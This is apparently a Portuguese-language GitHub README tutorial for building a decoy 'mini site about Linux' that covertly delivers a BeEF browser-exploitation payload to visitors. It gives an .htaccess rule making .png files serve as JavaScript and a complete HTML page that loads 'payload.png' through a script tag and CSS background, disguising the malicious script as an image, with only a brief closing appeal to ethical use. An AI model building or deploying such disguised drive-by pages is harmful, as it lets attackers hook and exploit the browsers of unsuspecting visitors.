 # css_load
For pentests, redteam and blueteam of active countermeasures

# Tutorial: Criando um Mini Site sobre Linux com Payload Beef


Alguns anos atrás eu realizei um [POST](https://medium.com/@0uts1d3r/traps-for-your-opponent-php-scripts-in-images-b185f6481103) no Medium falando sobre scripts PHP em imagens que na verdade é uma biblioteca PHP que pode converter um script `.PHP` em uma imagem e junto com o arquivo .htaccess no servidor fazer com que pareça realmente uma imagem mas na verdade é um script `.PHP` executando codigos ocultos no background.  

Neste tutorial, você aprenderá como criar um mini site sobre Linux (ou qualquer coisa que quiser. dica: Utilize chatGPT.) que contém uma imagem com uma div incorporando um arquivo .png que está sendo processado como .js pelo servidor. Para isso, usaremos o Beef para gerar um payload JavaScript malicioso, configuraremos um servidor PHP para processar arquivos .png como .js e criaremos um código HTML para o mini site.  

## Passo 1: Configurar o Beef

1. Instale e configure o Beef. Você pode encontrar instruções detalhadas de instalação na documentação oficial do Beef: [Beef - Installing](https://github.com/beefproject/beef/wiki/Installing).
2. Inicie o Beef e acesse o painel de controle.

## Passo 2: Gerar o Payload

1. No painel de controle do Beef, navegue até a seção "Modules" e selecione "Exploits".
2. Escolha um exploit para gerar um payload JavaScript malicioso. Por exemplo, você pode selecionar um exploit que visa sistemas Linux.
3. Configure as opções do exploit conforme necessário e gere o payload JavaScript.

## Passo 3: Configurar o Servidor PHP

1. Crie um arquivo `.htaccess` no diretório do seu servidor PHP ou adicione as configurações ao arquivo `.htaccess` existente.
2. Adicione a seguinte linha ao arquivo `.htaccess` para que os arquivos `.png` sejam tratados como `.js`:

```
AddType application/javascript .png
```

### Tipos MIME:  
```
AddType application/x-httpd-php .php
AddType application/javascript .png
AddType text/css .txt



image/png: para arquivos PNG de imagem padrão.
application/javascript: para arquivos JavaScript.
text/css: para arquivos CSS.
text/html: para arquivos HTML.
application/xml: para arquivos XML.
application/json: para arquivos JSON.
image/svg+xml: para arquivos SVG.
```

## Passo 4: Criar o Código HTML

Aqui está um exemplo de código HTML para o mini site sobre Linux:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mini Site sobre Linux</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        .header {
            background-color: #333;
            color: #fff;
            padding: 10px;
            text-align: center;
        }
        .container {
            max-width: 800px;
            margin: 20px auto;
            padding: 20px;
            background-color: #f9f9f9;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
        .background {
            width: 500px;
            height: 300px;
            background-image: url('payload.png');
            background-size: cover;
            margin: 20px auto;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <div class="header">
        <h1>Mini Site sobre Linux</h1>
    </div>
    <div class="container">
        <h2>O que é o Linux?</h2>
        <p>O Linux é um sistema operacional de código aberto baseado em Unix que é amplamente utilizado em servidores e sistemas embarcados. Ele oferece uma variedade de distribuições, como Ubuntu, Fedora, CentOS e muitos outros.</p>
        <h2>Ajuste de Core do Kernel do Linux</h2>
        <p>O kernel do Linux oferece uma ampla gama de opções de ajuste para otimizar o desempenho do sistema. Isso inclui ajustes de agendamento de processos, gerenciamento de memória, configuração de rede e muito mais.</p>
        <h2>Comandos Básicos do Linux</h2>
        <p>Alguns comandos básicos do Linux incluem:</p>
        <ul>
            <li><code>ls</code>: listar arquivos e diretórios</li>
            <li><code>cd</code>: mudar de diretório</li>
            <li><code>mkdir</code>: criar um novo diretório</li>
            <li><code>rm</code>: remover arquivos ou diretórios</li>
            <li><code>cp</code>: copiar arquivos ou diretórios</li>
            <li><code>mv</code>: mover arquivos ou diretórios</li>
            <li><code>sudo</code>: executar um comando com privilégios de superusuário</li>
        </ul>
        <h2>Segurança no Linux</h2>
        <p>O Linux é conhecido por sua forte segurança, mas ainda existem práticas recomendadas para garantir a segurança do sistema, incluindo:</p>
        <ul>
            <li>Mantenha o sistema atualizado com patches de segurança</li>
            <li>Use senhas fortes e altere-as regularmente</li>
            <li>Configure corretamente as permissões de arquivo e diretório</li>
            <li>Use firewalls para controlar o tráfego de rede</li>
            <li>Monitore o sistema em busca de atividades suspeitas</li>
        </ul>
    </div>
    <div class="background"></div>
    <script src="payload.png"></script> <!-- Comente este codigo caso queira utilizar payload.php, ele configurado no CSS3 ja é o suficiente. -->
</body>
</html>

```

## Passo 5: Testar o Mini Site

1. Coloque o arquivo `.htaccess` no diretório do servidor PHP.
2. Coloque o arquivo HTML e o arquivo de payload gerado pelo Beef no diretório do servidor PHP.
3. Inicie o servidor PHP.
4. Acesse o mini site no navegador para testar.

Com este tutorial, você deve ser capaz de criar um mini site sobre Linux com uma imagem que contém um arquivo .png incorporado como .js, que é processado pelo servidor PHP. Certifique-se de usar essas técnicas de maneira ética e legal.
